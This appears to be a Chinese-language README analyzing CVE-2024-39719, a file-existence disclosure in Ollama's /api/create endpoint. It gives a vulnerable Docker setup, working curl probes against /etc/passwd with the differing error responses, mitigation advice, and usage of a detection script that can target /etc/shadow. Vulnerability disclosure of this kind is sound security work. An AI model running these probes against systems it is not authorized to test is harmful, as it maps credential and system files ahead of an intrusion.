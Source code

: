 # Ollama 文件存在性泄露漏洞 (CVE-2024-39719) 详细分析

## 漏洞概述

CVE-2024-39719 是一个影响 Ollama 0.3.14 及之前版本的文件存在性泄露（File Existence Disclosure）漏洞。该漏洞允许攻击者通过 API 接口探测服务器上特定文件是否存在，从而可能导致信息泄露。

**发布日期**：2024年10月31日

## 漏洞详情

### 漏洞原理

该漏洞存在于 Ollama 的 `/api/create` 端点中。当攻击者调用 `CreateModel` API 并传递一个路径参数时，服务器会根据该路径是否存在返回不同的错误消息。这种行为使攻击者能够通过分析错误消息来确定服务器上特定文件或目录是否存在。

该漏洞的核心问题是在处理用户输入时没有正确地隐藏路径存在性信息，而是直接将文件系统错误返回给了客户端。

### 影响范围

此漏洞影响 Ollama 0.3.14 及之前的所有版本。

### 漏洞危害

虽然文件存在性泄露漏洞本身可能看起来不太严重，但它可能:

1. 作为更复杂攻击的前置步骤，帮助攻击者收集服务器信息
2. 探测关键配置文件、证书或敏感数据文件的存在
3. 辅助攻击者进行更有针对性的攻击
4. 在特定环境下导致信息泄露，例如确认特定用户的存在或系统特征

## 漏洞复现

### 环境搭建

1. 使用以下 Docker Compose 文件创建受影响的 Ollama 环境：

```yaml
services:
  ollama:
    image: ollama/ollama:0.3.14
    container_name: ollama
    volumes:
      - ollama:/root/.ollama
    ports:
      - "11434:11434"

volumes:
  ollama:
```

2. 启动服务：
```bash
docker compose up -d
```

3. 服务启动后，可通过访问 `http://your-ip:11434/` 确认 Ollama 0.3.14 已成功运行。

### 复现步骤

#### 1. 测试不存在的文件

使用 `curl` 命令发送请求，尝试访问不存在的文件：

```bash
curl "http://your-ip:11434/api/create" -d '{"name": "file-leak-existence","path": "/tmp/non-existing"}'
```

返回结果：
```json
{"error":"error reading modelfile: open /tmp/non-existing: no such file or directory"}
```

#### 2. 测试存在的文件

测试一个存在的文件，例如 `/etc/passwd`：

```bash
curl "http://your-ip:11434/api/create" -d '{"name": "file-leak-existence","path": "/etc/passwd"}'
```

返回结果：
```json
{"error":"no FROM line for the model was specified"}
```

通过以上不同的错误消息，攻击者可以判断目标路径文件是存在还是不存在，从而获取服务器文件结构信息。
需要注意的是，服务器根据不同请求返回的信息可能随着版本不同而不同。

## 漏洞修复

### 官方修复方案

Ollama 官方已在更新版本中修复了该漏洞。修复措施包括：

1. 统一错误处理，避免泄露文件存在性信息
2. 对用户输入的路径进行更严格的验证和过滤
3. 采用更加通用的错误消息，不直接暴露文件系统信息

### 修复建议

1. **升级Ollama版本**：将 Ollama 升级到最新版本是解决此漏洞的最有效方法。
2. **访问控制**：限制对 API 接口的访问，仅允许授权用户使用。
3. **网络隔离**：在可能的情况下，将 Ollama 服务部署在隔离网络中，减少外部访问。
4. **监控**：加强对 API 调用的监控，特别是对 `/api/create` 端点的异常访问模式进行检测。

## 漏洞检测脚本使用方法

提供的 Python 脚本可用于检测 Ollama 服务器是否易受 CVE-2024-39719 漏洞的影响。

### 环境要求
- Python 3.x
- 所需包: `requests`, `termcolor`

### 安装依赖
```bash
pip install requests termcolor
```

### 使用方法
```bash
python CVE_2024_39719.py -u <ollama服务器URL> [-f <要检查的文件>]
```

### 参数选项
- `-u, --url`: Ollama 服务器的 URL（必需）
- `-f, --file`: 要检查是否存在的文件（默认为 "/etc/passwd"）

### 使用示例
```bash
# 检查服务器是否存在漏洞
python CVE_2024_39719.py -u http://your-ip:11434

# 检查特定文件是否存在
python CVE_2024_39719.py -u http://your-ip:11434 -f /etc/shadow
```

## 参考资料

- [国家漏洞库中的 CVE-2024-39719](https://nvd.nist.gov/)
- [Ollama GitHub 仓库](https://github.com/ollama/ollama)
- [Ollama 安全公告](https://github.com/ollama/ollama/security/advisories)

## 免责声明

此脚本仅供教育目的和合法的安全测试使用。在测试任何系统的漏洞之前，请确保您已获得适当的授权。未经授权的测试可能违反法律法规。
